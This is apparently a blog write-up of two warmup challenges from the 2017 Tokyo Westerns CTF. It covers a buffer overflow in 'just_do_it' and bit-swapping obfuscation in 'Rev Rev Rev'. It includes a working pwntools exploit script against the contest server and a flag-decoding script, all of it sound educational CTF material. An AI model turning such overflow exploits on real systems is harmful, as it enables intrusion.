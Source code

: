 ```yaml
---
layout: post
title:  "Radare2 and Tokyo Western CTF: just\_do\_it, Rev Rev Rev"
date:   2017-8-3 19:20:00 -0400
categories: update post exploitation reverse-engineering
---
```


<h1>Introduction</h1>

I had fun in, but hadn't done well in the Tokyo Westerns CTF that has just passed. I'm still waiting myself for some better writeups to some of the more interesting challenges to get posted. But here's my writeup of two warmup challenges.

<h1>just_do_it</h1>

<img title="r2 - Graph of input handling" src="/pics/TakingTheInputJustDoIt.png">

This challenge was a very straightforward buffer overflow. The buffer that's written into has only 0x10 bytes of space al located to it, but 0x20 is passed in as a size for fgets.  Overflow, the buffer until the dword 0xc bytes below the ebp register is overflown. You can then write into the variable any address to be called by puts here.

<img src="/pics/OverflowJustDoIt.png">

Point it at the static address the flag is loaded into (either 0x0804a07f or 0x0804a080, depending on whether you ask radare2 or GDB), and we can then get the flag.

{% highlight Python %}

from pwn import *

e = ELF('./just_do_it')
#p = process('./just_do_it')

start = 0x0804a07f

'''
May have been off by a byte, but I was too lazy to be precise.
flag:TWCTF{pwnable_warmup_I_did_it!}
'''

#Don't need to let it keep running after getting the flag.
for i in range(0,100):
    p = remote("pwn1.chal.ctf.westerns.tokyo", 12345)
    p.send(cyclic(length=0x14, n=4)+pack(start+i) + '\n')
    print p.recv()
{% endhighlight %}

<h1>Rev Rev Rev</h1>

So, there's essentially 3 key functions to look at. Radare2 lists them as sub.strlen_6db, fcn.08048738, and fcn.080487b2.

<img src="/pics/RevRevRev.png">

The strlen-named function simply performs a strrev() on the input string. 

The function located at 0x08048738 performs three different pairwise flips on each character following.

<img src="/pics/PairwiseFlips.png">

What the first effectively does is take every two consecutive bits in a character, and swap them. And then the second takes consecutive groups of 2 bits and swaps them. And the third takes both pairs of 4 bits within the byte to swap them.

The last function at 0x084087b2 simply performs a NOT operation on each character to flip every bit inside. 

Lastly, the encrypted flag can be found within Radare2 by seeking to the location its pointer is stored (s 0x804a038), and then seeking to the address found there.

<img src="/pics/EncryptedFlagRevRevRev.png">

After copying the bytes into Python, unencryption can be done by redoing each function in reverse.

{% highlight Python %}
from pwn import *

flag_hidden = pack(0x65d92941) + pack(0xc9e1f1a1) + pack(0x13930919) + pack(0x49b909a1) + pack(0x61dd89b9) + pack(0xf1a16931) + pack(0xd59d2171) + pack(0x00d5153d)

flag_hidden = flag_hidden[:-1] #don't want to operate on null byte.

def pair_flip(c):
    return ( ((c & 0x55) << 1) | ((c >> 1) & 0x55) ) & 0xff

def double_flip(c):    return ( ((c &0x33) << 2) | ((c >> 2) & 0x33) ) & 0xff

def quad_flip(c):
    return ((c << 4) | (c >> 4)) &0xff


flag = ""

for b in list(flag_hidden):
    xor_chr = ord(b) ^ 0xff #Undo NOT
    q_chr = quad_flip(xor_chr)
    d_chr = double_flip(q_chr)
    p_chr = pair_flip(d_chr)
    flag += chr(p_chr)

#There's no joke in the flag. :/
print "flag:" + flag[::-1]

{% endhighlight %}

